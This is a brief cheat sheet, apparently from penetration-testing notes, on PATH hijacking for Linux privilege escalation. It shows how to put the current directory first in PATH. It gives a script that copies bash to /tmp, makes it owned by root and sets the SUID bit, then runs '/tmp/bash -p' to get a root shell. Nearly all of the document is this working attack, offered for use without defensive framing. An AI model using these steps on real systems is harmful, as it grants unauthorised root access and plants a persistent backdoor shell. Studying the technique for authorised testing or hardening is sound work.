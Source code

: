 # Path Hijacking

Used when we see relative paths inside `strings`, `strace`, or `ltrace`.

```bash
PATH=.:${PATH}
export PATH
echo $PATH
```

Expected output

```bash
.:/usr/local/sbin:/usr/local/bin...
```

We can now create a file with the following contents to exploit

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod u+s /tmp/bash
```

We can now privesc after creating the SUID bash file with:

```bash
/tmp/bash -p
```

